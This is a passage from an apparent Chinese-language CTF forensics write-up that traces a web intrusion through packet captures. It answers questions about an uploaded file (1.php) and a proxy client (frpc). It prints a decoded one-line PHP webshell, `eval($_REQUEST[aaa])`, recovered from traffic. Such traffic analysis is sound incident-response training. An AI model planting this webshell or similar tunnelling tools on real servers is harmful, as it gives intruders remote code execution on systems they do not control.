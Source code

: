 还是在刚刚的332数据包中追踪http流，发现base64编码,解密后为`<?php eval($_REQUEST[aaa]);?>`，为一句话木马，文件名指向1.php

<img src="/img/article/longjiancup/16.png"/>

flag: 1.php

**3.5黑客上传的代理工具客户端名字是_。（如有字母请全部使用小写）**

在数据包最后面发现了疑似base64没解码出来，但在最后一个包中发现了frpc.ini，其应该是frpc客户端的文件，推测是使用了frpc的代理工具客户端

<img src="/img/article/longjiancup/17.png"/>

<img src="/img/article/longjiancup/18.png"/>
